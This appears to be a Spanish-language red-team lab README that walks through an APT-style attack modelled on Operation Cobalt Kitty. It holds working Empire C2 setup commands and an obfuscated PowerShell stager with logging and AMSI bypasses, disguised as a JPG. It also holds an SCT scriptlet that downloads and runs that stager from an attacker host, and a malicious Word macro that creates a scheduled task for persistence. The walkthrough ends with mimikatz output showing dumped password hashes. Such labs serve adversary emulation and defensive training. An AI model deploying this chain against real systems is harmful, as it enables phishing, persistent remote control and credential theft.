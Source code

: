 # Laboratorio parte 1

## Referencias: 
- [Cybereason - Operation Cobalt Kitty](https://cdn2.hubspot.net/hubfs/3354902/Cybereason%20Labs%20Analysis%20Operation%20Cobalt%20Kitty.pdf)
- [MITRE ATT&CK - Mshta](https://attack.mitre.org/techniques/T1218/005/)
- [LOLBINS](https://lolbas-project.github.io/#)
- [LOLBIN MSHTA](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)
- [MITRE ATT&CK - Regsvr32](https://attack.mitre.org/techniques/T1218/010/)
- [SCT Files](https://www.elladodelmal.com/2016/09/ejecucion-de-codigo-en-windows-con.html)

## Objetivos

Obtener el acceso inicial, se realiza una tecnica utilizado por el Grupo Cobalt Kitty. 
La tencica consiste en crear un word con macros maliciosos. Se inicia generando un payload en powershell, se aprovecha del LOLBIN mshta para ejecutar el fichero SCT carga el payload empaquetado. 
El word con macros crea una tarea programada donde cada 15 minutos carga el payload malicioso. 


## Fases que se van a realizar
- **Acceso inicial**: A través de ingeniería social se envía un Word con macros malicioso.
- **Persistencia**: Se crea una tarea programada cada 15 minutos. 


## Walkthrough

### Iniciar el C2
```bash
# Servidor 
docker run -it --rm --name empire-server -p 1337:1337 -p 5000:5000 -v /root/Empire/:/empire -p 80:80 bcsecurity/empire:latest

# Cliente
docker run -it --rm --name empire-client -v /root/Empire/:/empire bcsecurity/empire:latest client

# Connectarse al servidor 
connect -c remote-server
```
> https://bc-security.gitbook.io/empire-wiki/

### Generar el Listener
```bash
(Empire) > uselistener http  

(Empire: uselistener/http) > set Name IAB-LAB
# [*] Set Name to IAB-LAB
(Empire: uselistener/http) > set Port 80
# [*] Set Port to 80
(Empire: uselistener/http) > set Host 206.189.xxx.xxx
# [*] Set Host to 206.189.xxx.xxx
(Empire: uselistener/http) > execute
```

### Generar el payload powershell

```bash
(Empire: uselistener/http) > usestager windows/launcher_bat

(Empire: usestager/windows/launcher_bat) > set Bypasses RastaMouse etw ScriptBlockLogBypass mattifestation
# [*] Set Bypasses to RastaMouse etw ScriptBlockLogBypass mattifestation

(Empire: usestager/windows/launcher_bat) > set Listener IAB-LAB
# [*] Set Listener to IAB-LAB

(Empire: usestager/windows/launcher_bat) > set Obfuscate True
# [*] Set Obfuscate to True

(Empire: usestager/windows/launcher_bat) > set OutFile logo-black.jpg
# [*] Set OutFile to logo-black.jpg

(Empire: usestager/windows/launcher_bat) > execute
# [+] logo-black.jpg written to /empire/empire/client/generated-stagers/logo-black.jpg
```

Nos ubicamos en *~/Empire/empire/client/generated-stagers* y vemos que el mime type no hay ningún problema

```bash
root@ubuntu:~/Empire/empire/client/generated-stagers > file logo-black.jpg
# logo-black.jpg: ASCII text, with very long lines
```
### Generar el Fichero SCT
Plantilla : https://gist.github.com/bohops/6ded40c4989c673f2e30b9a6c1985019 

Para crear la PoC, se sustituie 'calc.exe' por la ruta de descarga del PowerShell ofuscado y luego se ejecuta. El código final será algo similar a esto:

```xml
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
	>

	<!-- regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
	<!-- DFIR -->
	<!--		.sct files are downloaded and executed from a path like this -->
	<!-- Though, the name and extension are arbitary.. -->
	<!-- c:\users\USER\appdata\local\microsoft\windows\temporary internet files\content.ie5\2vcqsj3k\file[2].sct -->
	<!-- Based on current research, no registry keys are written, since call "uninstall" -->


	<!-- Proof Of Concept - Casey Smith @subTee --> 
        <!-- @RedCanary - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/atomic-dev-cs/Windows/Payloads/mshta.sct -->
	<script language="JScript">
		<![CDATA[
            var r = new ActiveXObject("WScript.Shell").Run("powershell.exe iex (iwr 'http://ip:8888/logo-black.jpg')", 0, false);
			
		]]>
	</script>
</registration>

<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

	function Exec()
	{
       var r = new ActiveXObject("WScript.Shell").Run("powershell.exe iex (iwr 'http://ip:8888/logo-black.jpg')", 0, false);
	}

]]>
</script>

</scriptlet>
```
> con vim se puede traducir con :%s/ip\:/xxx.xxx.xxx.xxx\:/g




Se guarda el fichero como logo-final.jpg. Se deja ubicado en ~/uploads/ y asi puede servir como el stager de PowerShell creado previamente.

### Macro Maliciosa

1 - Para crear el fichero word con macros es necesario habilitar el modo desarrollador  
2 - Se guardan los macros en el documento  
3 - Se utiliza la siguiente plantilla para la macro 

```
Sub Auto_open()
Call Shell("schtasks /create /sc MINUTE /tn ""Windows Error Reporting - GROUP ID"" /tr ""mshta.exe javascript:a=GetObject('script:http://ip:8888/logo-final.jpg').Exec();close();"" /mo 15 /F")
End Sub
``` 
4 - Guarda el word para macros


Si todo ha funcionado como se esperaba, se debería haber creado una sesión la marco en el C2 utilizando uno de los métodos creados por un APT real.

```bash

[+] New agent KD2TM5UX checked in                                                                                                                           [*] Sending agent (stage 2) to KD2TM5UX at 82.253.142.172                                                                                                   (Empire: usestager/windows/launcher_bat) > agents                                                                                                                                                                                                                                                                       ┌Agents──────────┬────────────┬─────────────┬──────────────┬────────────┬──────┬───────┬─────────────────────────┬──────────┐                               │ ID │ Name      │ Language   │ Internal IP │ Username     │ Process    │ PID  │ Delay │ Last Seen               │ Listener │                               ├────┼───────────┼────────────┼─────────────┼──────────────┼────────────┼──────┼───────┼─────────────────────────┼──────────┤                               │ 1  │ KD2TM5UX* │ powershell │ 10.0.2.15   │ SRV1\vagrant │ powershell │ 5896 │ 5/0.0 │ 2022-03-30 21:50:07 UTC │ IAB-LAB  │
│    │           │            │             │              │            │      │       │ (2 seconds ago)         │          │
└────┴───────────┴────────────┴─────────────┴──────────────┴────────────┴──────┴───────┴─────────────────────────┴──────────┘

(Empire: agents) > rename KD2TM5UX SRV1

(Empire: credentials) > interact SRV1
(Empire: SRV1) > mimikatz


(Empire: SRV1) > credentials

┌Credentials────┬────────────┬──────────┬──────┬──────────────────────────────────┬─────┬───────────────────────────────────────────────────┬─────────────────────┐
│ ID │ CredType │ Domain     │ UserName │ Host │ Password/Hash                    │ SID │ OS                                                │ Notes               │
├────┼──────────┼────────────┼──────────┼──────┼──────────────────────────────────┼─────┼───────────────────────────────────────────────────┼─────────────────────┤
│ 1  │ hash     │ grailcyber │ SRV1$    │ SRV1 │ afa32d46be0dba4ec4eee8bbae26ce04 │     │ Microsoft Windows Server 2019 Standard Evaluation │ 2022-03-30 21:55:01 │
├────┼──────────┼────────────┼──────────┼──────┼──────────────────────────────────┼─────┼───────────────────────────────────────────────────┼───────────────
──────┤
│ 2  │ hash     │ SRV1       │ vagrant  │ SRV1 │ e02bc503339d51f71d913c245d35b50b │     │ Microsoft Windows Server 2019 Standard Evaluation │ 2022-03-30 21:55:01 │
└────┴──────────┴────────────┴──────────┴──────┴──────────────────────────────────┴─────┴───────────────────────────────────────────────────┴───────────────
──────┘

```

### Problemas

¿No ha funcionado? 
La siguiente lista de comprobación para verificar que esta todo correcto:

- Deshabilitar el AV
- Revisar la conectividad con la victima y el atacante
- Debujea y ejecuta paso a paso por terminal los passos para descubrir en que fase no funciona.











